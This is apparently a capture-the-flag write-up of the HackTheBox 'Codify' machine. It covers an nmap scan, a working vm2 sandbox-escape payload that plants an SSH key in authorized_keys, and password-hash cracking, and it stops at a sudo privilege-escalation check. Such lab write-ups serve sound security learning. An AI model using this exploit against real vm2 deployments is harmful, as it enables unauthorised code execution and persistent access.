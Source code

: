 ```yaml
---
layout: post
title:  "[HTB] Codify"
date:   2024-07-18
categories: CTF
---
```


As usual let us start with our nmap scan

---

└─# nmap -vv 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-09 05:07 EDT
Initiating Ping Scan at 05:07
Scanning 10.10.11.239 [4 ports]
Completed Ping Scan at 05:07, 0.17s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:07
Completed Parallel DNS resolution of 1 host. at 05:07, 0.05s elapsed
Initiating SYN Stealth Scan at 05:07
Scanning 10.10.11.239 [1000 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 05:07, 1.20s elapsed (1000 total ports)
Nmap scan report for 10.10.11.239
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2024-08-09 05:07:22 EDT for 2s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.49 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1003 (40.372KB)

---

Seeing that there is port 80 open, add codify.htb to our /etc/hosts and look at the web application

![alt text](image.png)

Seeing that this is a web application that we can test our node.js code, maybe we can also execute a node.js script for a reverse shell such as the one provided here https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb, and just setup a listener on port 5555. BUT upon trying this, it doesnt work because the module "child_process" is not allowed.

![alt text](image-1.png)

So maybe this machine is not that straightforward. Looking more into the web application and we see that it is using vm2 to prevent harmful code being executed on the system. Researching about this revealed a way to bypass the vm2 protection - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

So now let us use this "web shell" that we got to insert an ssh public key to the current user's .ssh/authorized_keys so that we can just ssh to the machine as shown below

---

const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('mkdir .ssh ; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHa14zd5sTen4GB7qgt++IU1jzZR2y9A0OfMHsoVtjAc root@kali" > .ssh/authorized_keys ');
}
`

console.log(vm.run(code));

---

And now we can just connect to it via ssh

![alt text](image-3.png)

So investigating more on the machine, we see that there is another user called joshua, so probably we need to get a way to login to his account. Enumerating more on the machine, we see that there is a file in /var/www/contact called tickets.db and if we look at it, we see that it contains joshua's password hash which we can crack locally using john the ripper

![alt text](image-2.png)

![alt text](image-4.png)

Now that we have joshua's password, we can just login to his account via ssh and get the user flag

![alt text](image-5.png)

Looking for privilege escalation pathways, we check his sudo privileges and we see that we can run the /opt/scripts/mysql-backup.sh script

![alt text](image-6.png)

